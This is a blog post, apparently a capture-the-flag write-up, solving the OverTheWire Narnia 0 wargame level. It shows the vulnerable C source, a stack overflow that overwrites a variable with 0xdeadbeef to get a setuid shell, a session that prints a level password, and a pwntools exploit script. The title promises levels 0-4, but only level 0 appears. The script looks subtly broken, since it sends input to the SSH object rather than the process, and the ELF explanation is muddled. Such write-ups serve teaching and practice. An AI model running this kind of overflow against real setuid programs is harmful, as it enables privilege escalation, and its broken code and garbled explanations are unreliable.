 ```yaml
---
layout: post
title:  "Overthewire.org - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
comments: true
---
```


This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.

## Narnia 0
```c++

#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input,buf variable is 20 bytes long but the scanf reads in 24 bytes hence we can overwrite the variable “val” with any value we like.
```

```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary is an ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

### Exploitation

Let's send some crafted inpu to the program and observe 

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we have overwritten the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format as we are on little endian machine.
> 0xdeadbeef to little endian "\xef\xbe\xad\xde".

### Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

> Full exploit


```python
from pwn import *

context(arch='i386', os='linux')
context.log_level = 'debug'
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', port=2226, password='narnia0')
sh = s.run('/narnia/narnia0')
payload = ""
payload = 'A'*20 + '\xef\xbe\xad\xde'
s.sendline(payload)
sh.recvline(s)
s.sendline('cat /etc/narnia_pass/narnia1')
sh.recvline(sh)
```

### Conclusion 
Running the above command give us a shell as narnia1, now we can cat the flag. This is a very simple buffer overflow example, i will doing next challenge Narnia1 soon.



